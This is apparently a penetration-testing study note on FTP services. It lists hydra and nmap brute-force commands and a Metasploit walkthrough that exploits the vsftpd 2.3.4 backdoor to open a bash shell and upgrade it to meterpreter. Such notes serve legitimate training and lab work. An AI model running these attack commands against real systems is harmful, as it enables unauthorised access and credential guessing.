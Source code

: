 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. [hydra](#hydra)
	2. [nmap](#nmap)
	3. [msfconsole](#msfconsole)

---

# #Overview 
FTP - File Transfer Protocol

File sharing protocol used by different services

## #Ports
- 21 : Win/Lin : Main port for access

## Usage
`ftp 192.156.2.3`
- anonymous login
	- user: anonymous
	- pass: null : just hit enter

## Related Services
vsftp
SFTP
ProFTPD
IIS FTP

---

# #Tools
## #hydra
[Tool info - hydra](../Tools/Hydra.md)

Dictionary attack with *userlist* and *passlist*
- -t : threads
- -L : user File
- -P : pass File
```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.24.3 -t 4 ftp
```

---

## #nmap
[Tool info - nmap](../Tools/NMAP.md)

Scripts
```bash
nmap 192.168.24.3 --script ftp-brute --script-args userdb=/root/users -p 21
```
- --script
	- ftp-brute
		- `--sript-args userdb=/userlist.txt`
	- ftp-anon : checks for anonymous login

---

## #msfconsole
[Tool Info - MSF](../Tools/MSF.md)

1. `search type:exploit vsftpd`
2. `use exploit/unix/ftp/vsftpd_234_backdoor`
	1. info
	2. run : easy
	3. `/bin/bash -i` : launch bash session
	4. ctrl-z : to background the session
3. `search shell_to_meterpreter` : look for module to upgrade session
4. `use post/multi/manage/shell_to_meterpreter`
	1. `set LHOST eht1` : set to ip of interface eth1
	2. `set session 1` : set it to the session number for the shell connection
	3. `run`
5. `sessions -u 1` : to auto upgrade session to meterpreter
6. `sessions` : to show and then connect by specifying number
